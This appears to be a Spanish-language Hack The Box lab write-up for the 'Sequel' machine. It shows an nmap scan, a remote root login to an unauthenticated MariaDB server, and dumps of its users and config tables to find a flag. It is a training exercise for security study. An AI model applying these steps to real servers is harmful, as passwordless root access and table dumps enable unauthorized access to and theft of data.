# Hack The Box - Sequel Writeup


**Author:** Isaac Muñoz
**Date:** 2025-10-06
**Machine IP:** 10.129.95.232

---

## Introducción

Máquina con un servidor **MariaDB/MySQL** expuesto sin autenticación. El objetivo es conectarse, enumerar las bases de datos y extraer la flag de la tabla correcta.

---

## Enumeración de puertos abiertos con Nmap

```bash
nmap -sV -sC 10.129.95.232 -oN escaneo
```

- **-sV** — detectar versión de servicios
- **-sC** — ejecutar scripts por defecto de nmap



Se identifica el puerto **3306/tcp open** corriendo **MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1**.

Consultamos la ayuda del cliente MySQL para conocer los parámetros disponibles:

```bash
mysql --help
```





Parámetros clave:
- **-h** — especificar host/servidor
- **-u** — especificar usuario de login

---

## MySQL en Localhost (Referencia)

> Esta sección la incluyo como referencia o apunte, útil para futuras máquinas.

Activar el servicio MariaDB:

```bash
systemctl start mariadb
systemctl status mariadb
```





Acceder como root en local:

```bash
mysql -u root
```



Ver opciones disponibles dentro del cliente:

```bash
help
```



---

## Explotación

Conectarse al servidor remoto sin contraseña

```bash
mysql -h 10.129.95.232 -u root
```

El servidor acepta la conexión sin autenticación.

### Enumeración de bases de datos

```sql
SHOW DATABASES;
```



Se listan todas las bases de datos. HTB pedía identificar la **4ta base de datos** — `htb`.

### Acceder a la base de datos htb

```sql
USE htb;
```



### Listar tablas

```sql
SHOW TABLES;
```



### Extraer datos de las tablas

```sql
SELECT * FROM users;
```



```sql
SELECT * FROM config;
```



---

## Flag

Revisando los campos de la tabla **config** se encuentra la **flag** de HackTheBox.

